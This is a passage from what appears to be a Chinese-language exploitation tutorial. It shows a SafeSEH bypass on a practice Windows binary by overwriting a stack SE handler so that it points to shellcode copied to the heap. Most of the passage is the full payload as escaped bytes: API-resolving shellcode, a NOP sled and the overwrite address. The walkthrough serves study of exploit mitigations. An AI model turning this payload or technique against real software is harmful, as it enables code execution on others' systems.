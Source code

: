 ![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x010-005.png)

可以看到输入数据的起始栈地址0x0012fe8c
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x010-006.png)
定位到栈上最近的S.E.H结构, SE Handler的栈地址0x0012ffb4, 0x0012ffb4-0x0012fe8c=296 byte

利用safeS.E.H的缺陷, 即使S.E.H不可信, 对于指向堆区的Handler仍然会调用。
组织300 byte的shellcode, 覆盖掉栈上的SE Handler, 指向copy到堆块上的shellcode
```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\xd0\x29\x39\x00";
```

